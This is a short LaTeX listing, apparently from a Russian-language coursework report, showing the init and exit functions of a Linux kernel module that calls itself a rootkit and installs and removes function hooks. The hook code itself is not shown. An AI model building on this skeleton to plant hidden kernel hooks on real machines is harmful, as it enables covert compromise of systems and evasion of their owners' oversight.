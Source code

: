 \begin{lstlisting}[language=c,caption={Код программы}, label=lst:defsh]
static int __init	rootkit_init(void)
{
	int	err;

	err = fh_install_hooks(hooks, ARRAY_SIZE(hooks));
	if (err)
		return (err);
	printk(KERN_INFO "rootkit: Loaded >:-)\n");
	return (0);
}

static void __exit	rootkit_exit(void)
{
	fh_remove_hooks(hooks, ARRAY_SIZE(hooks));
	printk(KERN_INFO "rootkit: Unloaded :-(\n");
}

module_init(rootkit_init);
module_exit(rootkit_exit);
	
	\end{lstlisting}